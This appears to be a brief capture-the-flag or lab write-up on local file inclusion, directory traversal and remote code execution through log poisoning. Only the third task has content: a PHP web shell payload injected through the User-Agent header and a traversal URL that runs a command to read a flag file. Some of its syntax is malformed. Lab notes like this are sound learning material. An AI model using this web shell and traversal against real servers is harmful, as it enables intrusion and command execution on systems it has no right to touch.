 # LFI BASICS

```
## TASK1
Local File Inclusion


```


```
## TASK2
Directory Traversal



```

```
## TASK3
RCE using and LFI and poisoining
User-Agent : <?php system($_GET['lif']); ?>
http//:{ip}?pag=../.././?lfi={cat%20/home/lfi/flag.txt}


```

